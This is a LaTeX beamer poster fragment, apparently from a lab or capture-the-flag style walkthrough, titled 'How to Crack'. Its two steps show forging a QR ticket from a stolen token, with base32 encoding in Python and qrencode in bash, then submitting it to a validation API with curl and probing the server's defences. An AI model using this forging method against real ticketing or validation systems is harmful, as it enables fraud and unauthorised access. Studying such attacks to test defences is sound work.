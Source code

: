 \documentclass[final,dvipsnames]{beamer}
\newlength{\sepwidth}
\newlength{\colwidth}
\newcommand{\separatorcolumn}{\begin{column}{\sepwidth}\end{column}}
\begin{document}
\begin{frame}[t, fragile]
\begin{columns}[t]
\begin{column}{\colwidth}
\begin{block}{How to Crack}
        \textbf{4. Modify and Encode a New Ticket:}
        \begin{itemize}
            \item Construct a fake ticket by modifying the extracted data:
            \begin{lstlisting}[language=Python]
            import base64, json

            fake_ticket = json.dumps({
                "token": "STOLEN_TOKEN", 
                "one_time_password": "123456"
            })

            print(base64.b32encode(fake_ticket.encode()).decode())
            \end{lstlisting}
            \item Ensure the new ticket maintains the expected structure.
            \item Re-encode the modified ticket into a new QR code:
            \begin{lstlisting}[language=bash]
            echo "MODIFIED_BASE32_STRING" | qrencode -o fake_ticket.png
            \end{lstlisting}
        \end{itemize}

        \textbf{5. Submit the Fake Ticket for Validation:}
        \begin{itemize}
            \item Attempt to verify the ticket by sending it to the validation API:
            \begin{lstlisting}[language=bash]
            curl "http://server/check_ticket_validity?ticket=GENERATED_BASE32_TICKET"
            \end{lstlisting}
            \item Observe the response:
            \begin{itemize}
                \item Does the server accept the ticket?
                \item Are there additional verification mechanisms?
                \item Does the system use IP tracking or other security measures?
            \end{itemize}
            \item If unsuccessful, analyze server responses and refine the approach.
        \end{itemize}

    \end{block}

\end{column}




\separatorcolumn
\end{columns}
\end{frame}
\end{document}
